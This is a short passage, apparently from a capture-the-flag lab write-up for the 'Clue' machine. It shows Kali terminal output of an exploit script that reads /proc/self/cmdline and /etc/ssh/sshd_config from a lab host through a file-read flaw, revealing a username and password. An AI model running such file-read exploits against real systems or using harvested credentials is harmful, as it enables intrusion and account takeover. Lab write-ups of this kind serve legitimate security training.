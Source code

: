 

┌──(kali㉿kali)-[~/offsec/pg-practice/Clue]
└─$ python3 exploit.py 192.168.199.240 /proc/self/cmdline
/usr/bin/ruby2.5/usr/local/bin/cassandra-web-ucassie-pSecondBiteTheApple330

cassie
SecondBiteTheApple330



└─$ python3 exploit.py 192.168.199.240 /etc/ssh/sshd_config

#AllowAgentForwarding yes
#AllowTcpForwarding yes
#GatewayPorts no
X11Forwarding yes
#X11DisplayOffset 10
#X11UseLocalhost yes
#PermitTTY yes
PrintMotd no
#PrintLastLog yes
#TCPKeepAlive yes
#PermitUserEnvironment no
#Compression delayed
#ClientAliveInterval 0
#ClientAliveCountMax 3
#UseDNS no
#PidFile /var/run/sshd.pid
#MaxStartups 10:30:100
#PermitTunnel no
#ChrootDirectory none
#VersionAddendum none

# no default banner path
#Banner none

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

# override default of no subsystems
Subsystem       sftp    /usr/lib/openssh/sftp-server

# Example of overriding settings on a per-user basis
#Match User anoncvs
#       X11Forwarding no
#       AllowTcpForwarding no
#       PermitTTY no
#       ForceCommand cvs server
